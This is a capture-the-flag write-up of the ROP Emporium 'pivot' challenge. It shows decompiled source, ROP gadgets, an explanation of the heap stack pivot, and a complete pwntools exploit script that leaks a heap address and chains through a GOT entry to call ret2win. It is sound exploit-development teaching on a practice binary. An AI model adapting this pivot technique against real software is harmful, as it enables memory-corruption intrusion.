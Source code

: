 # Pivot

## Reversing with Ghidva

### main
```c
int main() {
  void *heapspace;
  
  puts("pivot by ROP Emporium");
  puts("x86_64\n");
  heapspace = malloc(0x1000000);
  
  if (heapspace == 0) {
    puts("Failed to request space for pivot stack");
    exit(1);
  }

  pwnme((void *)((long)heapspace + 0xffff00));
  free(heapspace);
  puts("\nExiting");
  return 0;
}
```

### pwnme
```c
void pwnme(void *heap) {
  char input[32];
  
  memset(input, 0, 0x20);
  puts("Call ret2win() from libpivot");
  printf("The Old Gods kindly bestow upon you a place to pivot: %p\n",heap);
  puts("Send a ROP chain now and it will land there");
  printf("> ");
  read(0, heap, 0x100);
  puts("Thank you!\n");
  puts("Now please send your stack smash");
  printf("> ");
  read(0, input, 0x40);
  puts("Thank you!");
}
```

### foothold_function
```c
void foothold_function() {
  puts("foothold_function(): Check out my .got.plt entry to gain a foothold into libpivot");
}
```

### ret2win
```c
void ret2win() {
  FILE *file;
  char flag[40];
  
  file = fopen("flag.txt", "r");
  if (file == 0) {
    puts("Failed to open file: flag.txt");
    exit(1);
  }
  fgets(flag, 0x21, file);
  puts(flag);
  fclose(file);
  exit(0);
}
```


## The vuln
A `Buffer Overflow` allows us to perform a `ROP chain` using the `Heap` as pivot. By using the correct gadget is possible to perform a `return2lib` attack in order to execute the `ret2win` function.

Useful Gadgets:
```assembly
0x00000000004007c8: pop rbp; ret; 
0x0000000000400a33: pop rdi; ret;
0x00000000004009bb: pop rax; ret;
0x00000000004006b0: call rax;
0x00000000004009bd: xchg rax, rsp; ret;
0x00000000004009c0: mov rax, qword ptr [rax]; ret;
0x00000000004009c4: add rax, rbp; ret;
```

## The exploit
First we need to fill the `Heap` buffer which will be used to pivot the `ROPchain`, for this chain we are going to use the `GOT` entry for `foothold_function` and the offset between `foothold_function` and `ret2win`. We need to execute first `foothold_function`, in order to link the correct function from `libpivot`, then we can increment the correct address using the precalculated offset and call `ret2win`. To fill `Stack` buffer we have to use the provided leak and the gadgets `0x4009bd` which allows us to flip `rsp` and `rax` registers and the gadget `0x4007c8`. By moving the leaked address in `rsp` we're going to take the chain in the `Heap`.

## The script
```py
from pwn import *
import os

#
# Context
#

e = context.binary = ELF('pivot')

#
# Offset
#

io = process(e.path)
io.sendlineafter(b'> ', 'poop')
io.sendlineafter(b'> ', cyclic(0x100))
io.wait()
core = io.corefile
io.close()
offset = cyclic_find(core.read(core.rsp, 4))

info(f'Offset: {offset}')

#
# Library functions offset
#

lib = ELF('libpivot.so')

lib_ret2win  = lib.symbols['ret2win']
lib_foothold = lib.symbols['foothold_function']

rtw_offset = lib_ret2win - lib_foothold

info(f'Ret2Win offset: {rtw_offset}')

#
# ROP
#

FOOTHOLD_FUNCTION_GOT   = p64(e.got['foothold_function'])
EXIT                    = p64(e.symbols['exit'])

XCHG_RAX_RSP            = p64(next(e.search(asm('xchg rax, rsp; ret;'))))
DEREF_RAX               = p64(next(e.search(asm('mov rax, qword ptr [rax]; ret;'))))
ADD_RAX_RBP             = p64(next(e.search(asm('add rax, rbp; ret;'))))
POP_RAX                 = p64(next(e.search(asm('pop rax; ret;'))))
POP_RBP                 = p64(next(e.search(asm('pop rbp; ret;'))))
CALL_RAX                = p64(next(e.search(asm('call rax;'))))

#
# Exploit
#

io = process(e.path)

# Leak heap address
heap_leak = io.recvuntil(b'\nSend').decode().split('\n')[-2].split()[-1]
info(f'Heap Leak: {heap_leak}')
heap_leak = p64(int(heap_leak[2:], 16))

heap_payload  = b''

heap_payload += POP_RAX
heap_payload += FOOTHOLD_FUNCTION_GOT
heap_payload += DEREF_RAX
heap_payload += CALL_RAX
heap_payload += b'RBPDIOCA'

heap_payload += POP_RAX
heap_payload += FOOTHOLD_FUNCTION_GOT
heap_payload += DEREF_RAX
heap_payload += POP_RBP
heap_payload += p64(rtw_offset)
heap_payload += ADD_RAX_RBP
heap_payload += CALL_RAX
heap_payload += EXIT
heap_payload += EXIT
heap_payload += b'H' * (0x100 - len(heap_payload))

stack_payload  = b''
stack_payload += b'A' * offset

stack_payload += POP_RAX
stack_payload += heap_leak
stack_payload += XCHG_RAX_RSP

io.sendafter(b'> ', heap_payload)
io.sendafter(b'> ', stack_payload)

print(io.recvrepeat(1).decode())

os.system('rm core*')
```